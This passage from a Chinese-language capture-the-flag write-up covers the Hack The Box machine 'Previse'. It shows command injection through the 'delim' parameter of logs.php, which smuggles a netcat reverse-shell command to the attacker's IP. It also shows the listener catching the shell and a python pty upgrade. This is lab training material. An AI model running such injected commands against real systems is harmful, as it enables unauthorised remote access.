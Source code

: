 # 参数篡改

我们可以看到这是可行的，我得到了逗号分隔的列表。我们可以滥用这种消毒输入的缺乏来获得一个反向外壳。在另一个终端中启动 netcat 侦听，然后使用 URL 编码的简单反向 shell:

```
┌──(root💀kali)-[~/htb/previse]
└─# curl -v --cookie "PHPSESSID=1ovoh21p24c94mggubgc3j16dn" -d delim=comma%26nc+-e+/bin/sh+10.10.14.214+1337 http://previse.htb/logs.php 
*   Trying 10.10.11.104:80...
* Connected to previse.htb (10.10.11.104) port 80 (#0)
> POST /logs.php HTTP/1.1
> Host: previse.htb
> User-Agent: curl/7.74.0
> Accept: */*
> Cookie: PHPSESSID=1ovoh21p24c94mggubgc3j16dn
> Content-Length: 45
> Content-Type: application/x-www-form-urlencoded
> 
* upload completely sent off: 45 out of 45 bytes
```

切换到我们等待的 netcat 监听器，我们看到我们已经连接了我们的 shell:

```
┌──(root💀kali)-[~/htb/previse]
└─# nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.10.14.214] from (UNKNOWN) [10.10.11.104] 48260
```

我们先升级到更好的外壳:

```
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@previse:/var/www/html$
```

# MySQL 枚举

我们仅作为低权限用户进行连接，但之前我们发现了 mysql 凭据，因此我们可以查看数据库:
